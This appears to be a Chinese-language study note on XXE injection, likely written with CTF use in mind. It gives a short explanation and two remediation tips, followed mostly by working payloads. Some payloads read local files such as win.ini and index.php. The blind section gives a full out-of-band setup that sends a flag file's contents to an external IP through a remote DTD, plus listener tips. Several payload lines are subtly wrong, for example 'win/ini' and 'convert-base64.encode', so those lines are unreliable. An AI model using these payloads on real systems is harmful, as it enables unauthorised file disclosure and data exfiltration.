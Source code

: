 # XXE（XML外部实体注入）基础

```
<?xml version = "1.0"?>  //xml头
<!DOCTYPE note[ <!ENTITY cc "aa"> ]>  //主体
<na>&cc;</na>  //xml
```

xml中的标签是可以任意命名的



## XXE漏洞原理

XML（可扩展标记语言）是一种常用于Web应用程序的数据格式。XML文档可以定义实体，它们是存储文档中其他地方重复使用的数据的方式。外部实体是一种特殊类型的实体，它们的内容被定义在XML文档外部。

XXE漏洞发生在当应用程序解析含有外部实体引用的XML文档时，没有正确地限制或禁止这些外部实体的使用。攻击者可以利用这一点，通过构造包含恶意外部实体的XML文档，来实现攻击目的。


## 修复建议

1. 使用开发语言提供的禁用外部实体的方法。确保在解析XML前禁用DTD（文档类型定义）和禁止外部实体的解析。
2. 过滤用户提交的XML数据，特别是对于嵌入XML或DTD的输入，进行严格的验证和过滤，确保它们不包含对外部实体或不安全的结构的引用。



# 有回显，外部实体XXE

```
<?xml version = "1.0"?>
<!DOCTYPE note[ <!ENTITY cc "aa"> ]>
<na>&cc;</na>
```

```
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY f SYSTEM "file:///C://Windows//win/ini"> ]>
<x>&f;</x>
```

```
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY admin SYSTEM "file:///C://Windows//win/ini"> ]>
<user><username>&admin;</username><password> admin</password></user> 
```

php伪协议文件读取

```
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/index.php"> ]>
<user><username>&admin;</username><password> admin</password></user> 
```



# 无回显，外部实体，XXE

xml payload

```html
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY % remote SYSTEM "http://123.60.57.4/test.dtd">
%remote;%dtd;%xxe;
]>
```

先执行remote实体，再在该服务器中的test.dtd文件中执行dtd实体，再执行xxe实体



在服务器上/var/www/html下创建test.dtd文件

```
<!ENTITY % file SYSTEM "php://filter/read=convert-base64.encode/resource=/flag.txt">
//这里的文件读取也可以换成其他伪协议，如http,file
<!ENTITY % dtd "<!ENTITY xxe SYSTEM 'http://123.60.57.4/pass=%file;'>">
```

```
<!ENTITY % file SYSTEM "https://127.0.0.1/flag.php">
<!ENTITY % dtd "<!ENTITY xxe SYSTEM 'http://123.60.57.4/pass=%file;'>">
```

<!-- &#x25; 就是百分号（&#x25; vps=% vps），因为是嵌套在里面的引用，不能直接写百分号 -->
<!-- 如果选择nc监听的话，端口一定要加！！！ -->
<!-- 如果选择看日志的话，端口一定不能加！！！ -->

